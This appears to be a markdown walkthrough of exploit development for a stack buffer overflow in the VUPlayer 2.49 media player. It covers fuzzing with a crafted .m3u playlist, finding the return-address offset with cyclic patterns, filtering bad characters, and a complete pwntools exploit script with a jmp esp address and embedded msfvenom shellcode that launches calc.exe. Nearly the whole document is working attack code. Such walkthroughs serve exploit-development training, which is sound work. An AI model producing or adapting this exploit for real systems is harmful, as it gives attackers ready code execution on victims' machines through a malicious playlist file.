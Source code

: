# VUPlayer 2.49

```py
In [1]: with open('evil.m3u', 'wb') as fp:
   ...:     fp.write(b'http://' + b'A' * 2000)
   ...: 
```

![Image 1](img/vuplayer-2.49-1.png)

![Image 2](img/vuplayer-2.49-2.png)

```py
In [1]: with open('evil.m3u', 'wb') as fp:
   ...:     fp.write(b'http://' + cyclic(2000))
   ...:
```

![Image 3](img/vuplayer-2.49-3.png)

![Image 4](img/vuplayer-2.49-4.png)

```py
In [2]: cyclic_find(0x636b6161)
Out[2]: 1005
```

```py
In [3]: with open('evil.m3u', 'wb') as fp:
   ...:     fp.write(b'http://' + b'A'*1005 + b'BBBB' + bytes(range(1, 256)))
   ...: 
```

![Image 5](img/vuplayer-2.49-5.png)

```py
In [4]: chars = bytes([i for i in range(1, 256) if i not in [0x00, 0x09, 0x0a, 0x1a]])
   ...: with open('evil.m3u', 'wb') as fp:
   ...:     fp.write(b'http://' + b'A'*1005 + b'BBBB' + chars)
   ...:
```

![Image 6](img/vuplayer-2.49-6.png)

```py
#!/usr/bin/env python3

from pwn import *


pad = b'A' * 1005

# 0x1010539f: jmp esp;
ret = p32(0x1010539f)

nop = b'\x90' * 64

# msfvenom -p windows/exec -b '\x00\x09\x0a\x1a' -f py CMD=calc.exe
buf =  b""
buf += b"\xda\xd5\xba\x67\xf0\xce\x98\xd9\x74\x24\xf4\x5e\x31"
buf += b"\xc9\xb1\x31\x31\x56\x18\x83\xee\xfc\x03\x56\x73\x12"
buf += b"\x3b\x64\x93\x50\xc4\x95\x63\x35\x4c\x70\x52\x75\x2a"
buf += b"\xf0\xc4\x45\x38\x54\xe8\x2e\x6c\x4d\x7b\x42\xb9\x62"
buf += b"\xcc\xe9\x9f\x4d\xcd\x42\xe3\xcc\x4d\x99\x30\x2f\x6c"
buf += b"\x52\x45\x2e\xa9\x8f\xa4\x62\x62\xdb\x1b\x93\x07\x91"
buf += b"\xa7\x18\x5b\x37\xa0\xfd\x2b\x36\x81\x53\x20\x61\x01"
buf += b"\x55\xe5\x19\x08\x4d\xea\x24\xc2\xe6\xd8\xd3\xd5\x2e"
buf += b"\x11\x1b\x79\x0f\x9e\xee\x83\x57\x18\x11\xf6\xa1\x5b"
buf += b"\xac\x01\x76\x26\x6a\x87\x6d\x80\xf9\x3f\x4a\x31\x2d"
buf += b"\xd9\x19\x3d\x9a\xad\x46\x21\x1d\x61\xfd\x5d\x96\x84"
buf += b"\xd2\xd4\xec\xa2\xf6\xbd\xb7\xcb\xaf\x1b\x19\xf3\xb0"
buf += b"\xc4\xc6\x51\xba\xe8\x13\xe8\xe1\x66\xe5\x7e\x9c\xc4"
buf += b"\xe5\x80\x9f\x78\x8e\xb1\x14\x17\xc9\x4d\xff\x5c\x25"
buf += b"\x04\xa2\xf4\xae\xc1\x36\x45\xb3\xf1\xec\x89\xca\x71"
buf += b"\x05\x71\x29\x69\x6c\x74\x75\x2d\x9c\x04\xe6\xd8\xa2"
buf += b"\xbb\x07\xc9\xc0\x5a\x94\x91\x28\xf9\x1c\x33\x35"

with open('evil.m3u', 'wb') as fp:
    fp.write(b'http://' + pad + ret + nop + buf)
```

```
$ ./exploit.py
```

![Image 7](img/vuplayer-2.49-7.png)


